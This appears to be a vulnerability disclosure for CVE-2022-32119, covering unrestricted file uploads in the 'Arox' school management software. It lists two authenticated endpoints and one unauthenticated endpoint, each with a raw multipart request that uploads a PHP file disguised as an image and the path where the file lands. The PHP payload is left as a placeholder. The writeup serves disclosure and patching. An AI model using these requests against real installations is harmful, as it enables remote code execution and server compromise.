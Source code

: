 # CVE-2022-32119 - Arox-Unrestricted-File-Upload

There are multiple unrestricted file uploads that result in the arbitrary execution of PHP code.

Authenticated Vulnerable Pages:


localhost/office_admin/?pid=54&action=add


-----------------------------181967832439954202373233921976

Content-Disposition: form-data; name="apid"



2

-----------------------------181967832439954202373233921976

Content-Disposition: form-data; name="title"



Test

-----------------------------181967832439954202373233921976

Content-Disposition: form-data; name="image_path"; filename="phpfilehere.php.jpg"

Content-Type: image/jpeg



<PHP Code Here>

-----------------------------181967832439954202373233921976

Content-Disposition: form-data; name="addphoto"



Add

-----------------------------181967832439954202373233921976--

  
File location: localhost/office_admin/images/student_photos/<file here>



  
localhost/office_admin/?pid=22&action=school_details


-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_startdate"



06/04/2022

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_enddate"



07/04/2022

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_ac_startdate"



06/04/2022

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_ac_enddate"



07/04/2022

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_schoolname"



Test

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_currency"



Test

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_symbol"



test

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_address"



Test

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_endclass"





-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_email"



info@test.com

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_phoneno"



1234567899

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_website"



www.test.com

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="fi_school_logo"; filename="phpfilehere.php"

Content-Type: image/jpeg



<PHP Code Here>

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="oldlogoimage"



oldimage.jpg

-----------------------------11158482814295139764067111151

Content-Disposition: form-data; name="Submit"



Submit

-----------------------------11158482814295139764067111151--


File location: localhost/office_admin/images/school_logo/<file here>




Unauthenticated Vulnerable Pages:

localhost/greatbritain/greatbritain/upload_stafffille.php


-----------------------------80149291128776956634294289925

Content-Disposition: form-data; name="txtdocname"; filename="test.jpg"

Content-Type: image/jpeg



123456

-----------------------------80149291128776956634294289925

Content-Disposition: form-data; name="btnsubmit"



Submit

-----------------------------80149291128776956634294289925--


File location: localhost/greatbritain/greatbritain/upload_data/<file here>
